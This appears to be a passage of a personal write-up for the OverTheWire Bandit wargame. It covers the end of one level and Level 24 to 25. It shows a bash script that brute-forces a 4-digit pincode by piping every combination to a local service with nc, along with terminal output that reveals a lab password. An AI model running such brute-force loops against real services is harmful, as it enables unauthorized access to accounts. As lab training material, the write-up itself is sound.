 ## What I learned
- Using cron jobs to understand automated system tasks
- Creating shell scripts to extract privileged information
- Managing file permissions for proper execution

## References 
- chmod for setting file permissions
- Basic bash scripting

# Level 24 → Level 25
Brute force a 4-digit pincode to a network service

## My solve
I needed to connect to a service on port 30002 that required the bandit24 password plus a 4-digit pincode. Since there are only 10,000 possible combinations (0000-9999), I created a script to try all possibilities.

I wrote a bash script that generates all possible pincodes and submits them along with the password to the service until it finds the correct one.


```run.sh file

#!/bin/bash

(for i in {0001..9999}; do
echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done ) | nc localhost 30002
```
```bash
bandit24@bandit:~$ mktemp -d | cd
bandit24@bandit:~$ mktemp -d
/tmp/tmp.hX62xiIM4d
bandit24@bandit:~$ cd /tmp/tmp.hX62xiIM4d
bandit24@bandit:/tmp/tmp.hX62xiIM4d$ nano run.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/tmp.hX62xiIM4d$ chmod +x run.sh
bandit24@bandit:/tmp/tmp.hX62xiIM4d$ ./run.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

## What I learned
- How to implement a simple brute force attack
- Writing shell scripts to automate repetitive tasks
- Working with network services via command line
